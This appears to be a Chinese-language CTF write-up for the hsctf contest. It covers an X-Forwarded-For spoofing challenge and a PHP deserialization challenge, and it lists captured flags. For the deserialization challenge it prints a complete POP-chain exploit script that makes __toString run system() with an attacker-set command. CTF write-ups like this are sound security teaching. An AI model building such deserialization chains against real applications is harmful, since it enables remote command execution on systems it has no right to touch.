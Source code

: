 ![image-20221018174133631](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210181741704.png?x-oss-process=hzy)

hsctf{Mast3rH0ssssT_dI@nQQ}

## warm_up

![image-20221018174222722](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210181742846.png?x-oss-process=hzy)

考察XFF

![image-20221020132316151](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210201323294.png?x-oss-process=hzy)

![image-20221020132430382](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210201324481.png?x-oss-process=hzy)

Flag: hsctf{he1_hei_ran_r@n_w0_d3_rAn_Ran_00000000}

## ezser

> 魔术方法是什么东西捏？

基础pop chain

exp如下

```
<?php
class Fxizenta{
    public $b;
    public function __call($method,$attributes)
    {
        $this->sayhi();
    }
    public function sayhi()
    {
        echo "It's reversed! ctfer don't need girlfriend".$this->b;
    }

}
class Need{
    public $cmd ;
    public function __toString()
    {
        return system($this->cmd);  //backdoor
    }
}

class girlfriend{
    public $a;
    public function __destruct()
    {
        $this->a->meeting();
    }
}

$h = new Fxizenta();
$z = new Need();
$z ->cmd = 'cat flag.php';
$y = new girlfriend();
$y ->a = $h;
$h ->b = $z;

echo serialize($y);


?>
```